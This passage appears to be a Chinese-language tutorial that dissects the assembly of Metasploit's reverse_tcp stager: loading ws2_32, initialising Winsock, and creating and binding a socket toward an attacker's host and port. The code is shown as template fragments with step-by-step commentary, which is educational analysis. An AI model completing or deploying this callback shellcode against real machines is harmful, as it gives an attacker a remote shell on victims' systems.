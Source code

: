 ```js
reverse_tcp: push '32' ; Push the bytes 'ws2_32',0,0 onto the stack. 
    push 'ws2_' ; ... 
    push esp ; Push a pointer to the "ws2_32" string on the stack. 
    push #{Rex::Text.block_api_hash('kernel32.dll', 'LoadLibraryA')} 
    mov eax, ebp 
    call eax ; 
    LoadLibraryA( "ws2_32" ) 
    mov eax, 0x0190 ; EAX = sizeof( struct WSAData ) 
    sub esp, eax ; alloc some space for the WSAData structure 
    push esp ; push a pointer to this stuct 
    push eax ; push the wVersionRequested parameter 
    push #{Rex::Text.block_api\_hash('ws2_32.dll', 'WSAStartup')} 
    call ebp ; WSAStartup( 0x0190, &WSAData );
```

先看一下reverse\_tcp的汇编，首先push了几个参数。

在第5行先调用了block\_api\_hash得到了LoadLibraryA函数的地址，接着将LoadLibraryA函数的地址压入了堆栈，然后调用了asm\_block\_api函数。

此函数调用LoadLibraryA加载了ws2\_32这个dll，为下面使用socket链接metasploit做准备。  
从第9行开始，就是往堆栈中压入了一些参数，接着又调用了WSAStartup函数初始化了网络库。

下面这些汇编主要是压入了一些参数，接着在第15行调用了WSASocketA函数创建了一个套接字，接着把套接字存储到了edi中

```c
create_socket: 
    push #{encoded_host} ; host in little-endian format 
    push #{encoded_port} ; family AF_INET and port number 
    mov esi, esp ; save pointer to sockaddr struct 
    push eax ; if we succeed, eax will be zero, push zero for the flags param. 
    push eax ; push null for reserved parameter 
    push eax ; we do not specify a WSAPROTOCOL_INFO structure 
    push eax ; we do not specify a protocol inc eax ; 
    push eax ; push SOCK_STREAM 
    inc eax ; 
    push eax ; push AF_INET 
    push #{Rex::Text.block_api_hash('ws2_32.dll', 'WSASocketA')} 
    call ebp ; WSASocketA( AF_INET, SOCK_STREAM, 0, 0, 0, 0 );//创建了socket，为连接服务器做准备 
    xchg edi, eax ; save the socket for later, don't care about the value of eax after this
```

接着在第7行调用了bind函数，绑定了传入的socket结构体中的ip与端口

```c
push #{encoded_bind_port} ; family AF_INET and port number 
mov esi, esp ; save a pointer to sockaddr_in struct 
push #{sockaddr_size} ; length of the sockaddr_in struct (we only set the first 8 bytes, the rest aren't used) 
push esi ; pointer to the sockaddr_in struct 
push edi ; socket 
push #{Rex::Text.block_api_hash('ws2_32.dll', 'bind')} 
call ebp ; bind( s, &sockaddr_in, 16 ); 
push #{encoded_host} ; host in little-endian format 
push #{encoded_port} ; family AF_INET and port number 
mov esi, esp
```
